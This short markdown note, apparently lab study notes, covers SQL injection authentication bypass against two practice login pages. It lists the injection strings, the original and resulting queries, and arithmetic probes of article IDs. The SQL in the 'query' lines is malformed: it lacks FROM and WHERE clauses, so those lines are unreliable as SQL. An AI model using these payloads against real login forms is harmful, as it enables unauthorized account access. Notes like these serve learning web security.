

#Simple SQL Injection 



##SQL Injection Authentication Bypass


### Method 1---------------------------------------------------------------------

http://ptl-c994a86c-96f9cd66.libcurl.st/login.php


####Query 

SELECT USER= '' AND PASSWORD=MD5('')


####Injection
```
admin' or '1' = '1
```

####Final Query 

SELECT USER= 'admin' or '1' = '1' AND PASSWORD=''


### Method 2---------------------------------------------------------------------


http://ptl-8c7e0178-cac83b2a.libcurl.st


####Query 
	SELECT USER= '' AND PASSWORD=MD5('')

####Injection 

```
password") or "1" = "1" --   
```

####Final Query 

SELECT USER= "password") or "1" = "1" -- " AND PASSWORD=MD5("")


Intial Request Format 

- /article.php?id=2-1, the following request will be sent to the database SELECT * FROM articles WHERE id=2-1

- /article.php?id=2-0, the following request will be sent to the database SELECT * FROM articles WHERE id=2-0


